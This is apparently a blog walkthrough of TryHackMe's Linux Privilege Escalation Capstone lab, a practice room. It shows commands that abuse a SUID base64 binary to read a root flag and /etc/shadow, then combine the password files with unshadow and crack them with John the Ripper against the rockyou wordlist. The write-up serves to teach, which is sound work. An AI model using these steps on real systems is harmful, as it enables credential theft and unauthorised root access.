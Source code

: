 ```yaml
---
title: "TryHackMe Linux Privesc Capstone: A Quick Internal Pentest to Gain Root"
datePublished: Wed Aug 16 2023 11:55:33 GMT+0000 (Coordinated Universal Time)
cuid: clldoeqdh000609miczqj50an
slug: linux-privesc-capstone
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1692185506075/efdf958c-8af9-4652-8fcb-5e17b68b4576.png
tags: hacking, ctf, penetration-testing, 2articles1week, ethicalhacking

---
```


This walkthrough will go over the [Linux Privilege Escalation Capstone](https://tryhackme.com/room/linprivesc) found on [TryHackMe](https://tryhackme.com/). The objective is to assess your understanding gained from the prior course content by situating you in an internal environment where you already possess low-level privileges on a Linux server. Your task is to identify an attack vector that enables you to escalate your privileges to root.

### Ready, set, go!

First, we want to check and see if there is a `cron job` that we can exploit.

```bash
cat /etc/crontab
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692185826744/eee4c211-6b03-4719-b6c2-265fd4e7ce7e.png align="center")

There's nothing for us here. Let's proceed to see which binaries are available for us to run with `sudo` privileges.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692185884807/e3bcf798-ed39-4656-9de4-2114615d3156.png align="center")

We can exploit the `base64` binary with incorrect permissions to obtain the root flag.

```bash
LFILE=/home/rootflag/flag2.txt
base64 "$LFILE" | base64 --decode
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186099250/bdf8c2f0-8489-4189-b365-156a44e465b3.jpeg align="center")

Well, that worked for obtaining the root flag! Acquiring flag1 was a bit more challenging and required the use of `unshadow`. This command merges the `passwd` and `shadow` files into a single file, which can then be utilized by `John-the-Ripper` to crack passwords.

```bash
LFILE=/etc/shadow
base64 "$LFILE" | base64 -- decode
```

Copy and save the content into a `shadow.txt` file.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186390044/98ae8149-e977-40a5-9052-586d75b6bfe3.jpeg align="center")

Grab the contents from `passwd`.

```bash
cat /etc/passwd
```

Copy and save the content into a `passwd.txt` file.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186452849/0d57e72e-5b5c-4686-93f5-af8cf005504a.png align="center")

Combine the files and use `John-the-Ripper` to crack the passwords:

```bash
unshadow passwd.txt shadow.txt > passwords.txt
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186645883/49740bc6-7749-4c97-a428-0d480adac3ea.jpeg align="center")

Now that we have obtained `missy's` account password, we can switch users and retrieve the final flag from her `Documents` folder:

```bash
/home/missy/documents
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186822198/e7a92ac6-8f53-4cc3-914f-73304d6e6958.jpeg align="center")

### Summary

> In this walkthrough, we explore the Linux Privilege Escalation Capstone on TryHackMe, aiming to escalate our privileges to root. We begin by checking for exploitable cron jobs and identifying binaries with sudo privileges. We exploit the base64 binary to obtain the root flag and use unshadow and John-the-Ripper to crack passwords and retrieve the final flag from a missy's Documents folder.